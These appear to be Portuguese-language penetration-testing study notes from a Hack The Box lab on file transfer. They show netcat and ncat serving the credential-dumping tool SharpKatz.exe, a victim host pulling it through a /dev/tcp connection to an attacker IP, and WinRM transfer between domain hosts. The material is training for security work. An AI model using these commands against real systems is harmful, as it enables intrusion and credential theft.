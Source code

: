 #### NetCat - Enviando arquivo como entrada para Netcat
```shell-session
NycolasES6@htb[/htb]$ # Example using Original Netcat
NycolasES6@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Enviando arquivo como entrada para Netcat
```shell-session
NycolasES6@htb[/htb]$ # Example using Ncat
NycolasES6@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Máquina comprometida conectando-se ao Netcat usando /dev/tcp para receber o arquivo
```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## Transferência de arquivo de sessão do PowerShell

Pode haver cenários em que HTTP, HTTPS ou SMB não estejam disponíveis. Se esse for o caso, podemos usar [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) , também conhecido como WinRM, para executar operações de transferência de arquivos.

[O PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) nos permite executar scripts ou comandos em um computador remoto usando sessões do PowerShell. Por padrão, habilitar o PowerShell Remoting cria um ouvinte HTTP e um HTTPS. Os ouvintes são executados nas portas padrão TCP/5985 para HTTP e TCP/5986 para HTTPS.

Para criar uma sessão do PowerShell Remoting em um computador remoto, precisaremos de acesso administrativo, ser um membro do grupo `Remote Management Users` ou ter permissões explícitas para o PowerShell Remoting na configuração da sessão.

Vamos criar um exemplo e transferir um arquivo de `DC01` para `DATABASE01`e vice-versa. Temos uma sessão como `Administrator`em `DC01`, o usuário tem direitos administrativos em `DATABASE01`, e o PowerShell Remoting está habilitado. Vamos usar Test-NetConnection para confirmar que podemos conectar ao WinRM.

#### Em DC01 - Confirme se a porta TCP 5985 do WinRM está aberta em DATABASE01.
```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

